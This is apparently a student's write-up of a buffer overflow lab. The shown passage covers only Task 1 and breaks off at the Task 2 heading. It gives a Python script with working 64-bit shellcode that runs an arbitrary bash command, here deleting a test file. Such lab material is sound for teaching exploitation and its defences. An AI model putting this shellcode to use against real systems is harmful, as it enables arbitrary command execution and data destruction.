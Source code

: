 # Buffer Over Flow Lab

## Description

In this lab we are going to learn about a very famous type of attacks, buffer over flow attacks. We will be given four servers where in each there is an app with this vulnerability and we need to use that vulnerability to gain root access to these four machines. Then we are going to learn about countermeasures that are used to prevent such attacks.

## Task 1

In the `shellcode` folder of the lab files we have  `call_shellcode.c` which is the source code of a program that runs the `codefile_32` assembly (`codefile_64` assembly depending on the gcc build flags); on the other hand we have two python scripts that create this assembly files. This assembly files basically run a shell inside the host. Now the task is to modify one of the python scripts in such a way that `call_shellcode` is run, a file in the directory is deleted. The script below does exactly that; it removes a file named `test-remove.txt` from our directory:

```python
#!/usr/bin/python3
import sys

# You can use this shellcode to run any command you want
shellcode = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/rm  test-remove.txt                                  *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

content = bytearray(200)
content[0:] = shellcode

# Save the binary code to file
with open('codefile_64', 'wb') as f:
  f.write(content)
```
And here is the result:
![a](img)

## Task 2
